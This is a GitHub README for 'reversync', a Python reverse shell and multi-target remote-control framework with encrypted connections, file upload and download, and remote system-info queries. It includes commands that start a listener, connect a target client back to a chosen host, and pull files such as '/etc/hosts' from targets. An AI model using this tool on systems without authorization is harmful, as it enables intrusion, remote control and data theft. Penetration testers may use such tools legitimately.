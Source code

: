 # reversync: ⚡ Asynchronous Python Reverse Shell

[![Python](https://img.shields.io/badge/Python-3.7%2B-blue.svg)](https://www.python.org/)
[![Rich Output](https://img.shields.io/badge/Output-Rich-6e4aff)](https://github.com/Textualize/rich)

**reversync** is a modern, asynchronous Python reverse shell framework for secure, authenticated, and encrypted remote command execution and system info retrieval. It features a styled interactive server console via `rich` and supports multi-client management, file transfer, and robust authentication.

---

## 🚀 Features

- **Async Reverse Shell:** High-performance non-blocking I/O via Python `asyncio`.
- **SSL Encryption:** All traffic protected with SSL/TLS.
- **HMAC Authentication:** Challenge-response validation for targets using a password file.
- **Rich Server Console:** Terminal UI using `rich` and `blessed`, with command history and multi-target support.
- **Multi-client Management:** Connect, select, and control several targets at once.
- **Remote Command Execution:** Run commands on any client, view real-time output and errors.
- **File Pull & Push:** Securely fetch files from targets or upload files to targets (base64-encoded transfer).
- **System Info:** Query and display detailed remote system data.
- **Session Management:** Switch, view, disconnect, or stop client sessions.
- **Extensible:** Easy to add commands and extend functionality.
- **Graceful Shutdown & Error Handling:** Cleanly disconnect targets and shut down the server with clear error messages.

---

## 📦 Requirements

- **Python 3.7+**
- **Server dependencies:**
  - [`rich`](https://pypi.org/project/rich/)
  - [`blessed`](https://pypi.org/project/blessed/)
  - [`pyfiglet`](https://pypi.org/project/pyfiglet/)
- **Client:** Only the Python standard library.

**Note:**  
You must generate `cert.pem`, `key.pem` (SSL certificate/key) and create a single-line password file named `pswd` before starting the server.

---

## 🛠️ Setup

1. **Clone the repo:**
    ```bash
    git clone https://github.com/outisdz/reversync.git
    cd reversync
    ```
2. **Install dependencies:**
    ```bash
    pip install -r requirements.txt
    ```
3. **Generate SSL certificates:**
    ```bash
    openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
    ```
4. **Create a password file:**  
   Add your shared secret (single line, no spaces) to a file named `pswd` in the root directory.

---

## 🚦 Starting

**Start the Server:**  
You can now specify certificate, key, password, IP address, and port via command-line arguments:

```bash
python server.py --cert cert.pem --key key.pem --pswd pswd --listen 0.0.0.0 --port 1234
```
- All arguments are optional; defaults are:
    - `--cert cert.pem`
    - `--key key.pem`
    - `--pswd pswd`
    - `--listen 127.0.0.1`
    - `--port 1234`
- The server verifies all files exist before starting.

**Start the Client(s):**  
On the target machine (or another terminal):
```bash
python client.py
```
- By default, connects to `127.0.0.1:1234`.  
- **To connect to a different server or port, use command-line arguments:**
    ```bash
    python client.py --host <server_ip> --port <server_port>
    ```
    For example:
    ```bash
    python client.py --host 192.168.1.10 --port 443
    ```
- At startup, you'll be prompted for the shared secret (password) used for authentication.
- All client dependencies are from the Python standard library; no extra packages are required.

---

## 🖥️ Server Console Commands

| Command                                      | Description                                               |
|-----------------------------------------------|-----------------------------------------------------------|
| `help`                                       | Show help menu                                            |
| `targets`                                    | List all connected targets                                |
| `select <int>`                               | Select a client by index                                  |
| `stop <int>`                                 | Disconnect a client by index                              |
| `sysinfo`                                    | Get system info from target                               |
| `exit`                                       | Exit from current target session                          |
| `clear`                                      | Clear the console output                                  |
| `shutdown`                                   | Disconnect all targets and shut down server               |
| `pull -s <target file> -d <destination>`      | Download file from client                                 |
| `push -s <local file> -d <remote destination>`| Upload file to client                                     |
| _(any other command)_                        | Executes remotely on the client's shell                   |

**File Pull Example:**  
```bash
pull -s /etc/hosts -d ./downloads
```
Saves the file from client to the specified local directory (`downloads`).

**File Push Example:**  
```bash
push -s ./localfile.txt -d /tmp/
```
Uploads a local file to the specified directory on the client.

---

## ⚙️ Command-Line Options

You can now use the following command-line arguments for `server.py`:
- `--cert`: Path to TLS certificate file (default: `cert.pem`)
- `--key`: Path to TLS private key file (default: `key.pem`)
- `--pswd`: Path to password file used for authentication (default: `pswd`)
- `--listen`: IP address to bind and listen on (default: `127.0.0.1`)
- `--port`: Port number to listen on (default: `1234`)

**For `client.py`:**
- `--host`, `-H`: Server IP address to connect to (default: `127.0.0.1`)
- `--port`, `-p`: Server port to connect to (default: `1234`)

Example:
```bash
python client.py --host 10.10.10.20 --port 5555
```

---

## 📁 File Structure

- `server.py`: Main server logic, authentication, interactive command loop.
- `client.py`: Minimal client logic, shell command execution, argument parsing, HMAC authentication.
- `interactiveconsole.py`: Terminal UI and input/output for server.
- `targetsInfo.py`: Target management and session data.
- `sysInfo.py`: System info gathering on client.

---

## ⚠️ Security Warning

> **Never expose this server to the public internet unless you understand the risks.**
>
> - All communication is SSL/TLS encrypted, but authentication is via a shared secret.
> - Anyone with your certificate and password can run commands on your targets.
> - Use strong, unique secrets and protect your key/password files.

---

## 🛠️ Customization

- Change server or client IP/port with command-line arguments.
- Add or modify commands in `server.py` and `client.py`.
- Customize logo/UI in `interactiveconsole.py`.

---

## 📄 License

MIT License. See `LICENSE` for details.

---

**Enjoy hacking (ethically)!** 🚀